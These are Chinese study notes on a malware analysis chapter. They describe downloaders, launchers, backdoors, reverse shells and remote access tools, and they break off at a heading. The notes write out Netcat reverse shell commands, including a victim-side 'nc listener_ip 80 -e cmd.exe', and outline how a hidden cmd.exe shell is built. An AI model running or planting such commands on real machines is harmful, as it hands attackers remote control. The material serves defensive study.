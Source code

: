 # 第十一章 恶意代码的行为
熟悉恶意代码的行为。
## 下载器和启动器
常见的两种恶意代码是下载器和启动器。下载器从互联网上下载其他的恶意代码，然后在本地系统中运行。下载器通常会与漏洞利用（exploit）打包在一起。下载器常用Windows API函数URLDownloadtoFileA和WinExec，来下载并运行新的恶意代码。

启动器（也称为加载器）是一类可执行文件，用来安装立即运行或者将来秘密执行的恶意代码。启动器通常包含一个它要加载的恶意代码。
## 后门（backdoor）
后门（backdoor）是另一种类型的恶意代码，它能让攻击者远程访问一个受害的机器。后门是一种最常见的恶意代码，它们拥有多种功能，并且以多种形式与大小存在。后门代码往往实现了全套功能，所以当使用一个后门时，攻击者通常不需要下载额外的恶意代码。

后门程序利用互联网的通信方式是多样的，但是一个常用的方法是利用80端口使用HTTP协议。
HTTP是出站流量最常使用的协议，所以它为恶意代码提供了一个与其他流量混淆的好机会。

后门拥有一套通用的功能，例如操作注册表、列举窗口、创建目录、搜索文件，等等。查看后门使用和导入的Windows函数，可以确定后门程序实现的功能。

## 反向shell
反向shell是从被感染机器上发起一个连接，它提供攻击者shell访问被感染机器的权限。反向shel或者作为一个单独的恶意代码存在，或者作为一个复杂后门程序中的组件而存在。在反向shell中，攻击者能够如同在本地系统上一样运行命令。

**Netcat反向shell**
可以通过在两台机器上运行Netcat，来创建一个反向shell。同时，攻击者已经知道在恶意代码中使用Netcat，或者和其他恶意程序一起打包使用。

Netcat被作为一个反向shell使用时，远程机器使用下列命令，等待入站连接。
```
nc -l -p 80
```
-1选项设置Netcat为监听模式，-p用来设置监听端口。接下来，受害机器向外连出，并且使用下列命令提供shell。
```
nc 1istener_ip 80 -e cmd.exe
```
Listener_ip 80是远程机器的IP地址和端口。-e选项用来指定连接建立后要运行的程序，并将这一程序标准输入和输出与套接字进行绑定。

**Windows反向shell**
使用cmd.exe作为Windows系统中的反向shell，有两种简单的恶意编码实现：基础方法和多线程技术。

基础方法在恶意代码编写者之间比较流行，因为它容易编写，且效果与多线程技术一致。它涉及CreateProcess函数的调用，并操纵传递给CreateProcess的STARTUPINFO结构。首先，创建一个套接字，并与远程服务器建立连接。然后，绑定这个套接字与cmd.exe标准流（标准输入、标准输出以及标准错误）。**调用CreateProcess函数用隐藏窗口的方式创建cmd.exe程序，对受害者隐藏cmd.exe进程。**

Windows反向shell的多线程版本涉及一个套接字、两个管道及两个线程的创建（查询API调用函数CreateThread、CreatePipe）。恶意代码有时将这种方法作为策略，来篡改或编码经过一个套接字传入或传出的数据。CreatePipe用来绑定一个管道的读写端，如标准输入（stdin）和标准输出（stdout）。CreateProcess方法用来绑定一个管道与标准流，而不是直接与套接字绑定。调用CreateProcess方法，恶意代码会产生两个线程：一个用来从标准输入管道读数据，并且向套接字写数据，另外一个用来从一个套接字读数据，并且向一个标准输出管道写数据。通常这两个线程使用数据编码来篡改数据。

## 远程控制工具
远程控制工具（RAT）被用来远程管理一台或多台计算机。远程控制工具经常为了特定目标，如窃取信息或者旁路一个网络执行针对性的攻击。

服务器端运行在一个被植入恶意代码的受害主机上。客户端作为攻击者远程操纵运行命令和控制的单元。服务器端命令客户端开始一个连接，同时它们也被客户端控制。远程控制工具通常通过如80、443等常用的端口通信。
远程控制工具的网络结构：